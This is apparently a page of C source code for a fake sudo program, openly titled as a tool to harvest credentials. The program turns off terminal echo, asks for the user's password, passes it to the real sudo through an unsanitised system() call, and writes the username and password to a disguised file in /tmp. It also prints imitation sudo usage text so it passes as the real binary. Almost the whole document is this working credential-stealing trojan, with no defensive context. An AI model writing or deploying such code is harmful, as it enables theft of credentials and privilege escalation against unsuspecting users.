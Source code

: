 ## Fake Sudo Program to Harvest Credentials

Mimics legitimate Sudo binary to capture credentials and output to ```/tmp``` directory file.

```C
#include <stdio.h>
#include <stdlib.h>
#include <termios.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>


int main( int argc, char *argv[] )
{
    if( argc == 2 ) {
        struct termios oflags, nflags;
            char password[64];
            char Command[255];
            char *lgn;
            lgn = getlogin();
            struct passwd *pw;
            FILE *fp;
            /* disabling echo */
            tcgetattr(fileno(stdin), &oflags);
            nflags = oflags;
            nflags.c_lflag &= ~ECHO;
            nflags.c_lflag |= ECHONL;

            if (tcsetattr(fileno(stdin), TCSANOW, &nflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

            printf("Password: ");
            fgets(password, sizeof(password), stdin);
            password[strlen(password) - 1] = 0;
            sprintf(Command, "sudo -S <<< %s command %s", password, argv[1]);
            system(Command);
            fp = fopen("/tmp/tmp-mount-sU90gRA6", "w+");
            fprintf(fp, "User: %s\tPassword: %s", lgn, password); exit(1);
            fclose(fp);
            /* restore terminal */
            if (tcsetattr(fileno(stdin), TCSANOW, &oflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

    return 0;
   }
   else {
    printf("usage: sudo -h | -K | -k | -V\nusage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]\nusage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]\nusage: sudo [-AbEHknPS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\t[VAR=value] [-i|-s] [<command>]\nusage: sudo -e [-AknS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\tfile ...\n");
   }
 return 0;
}
```
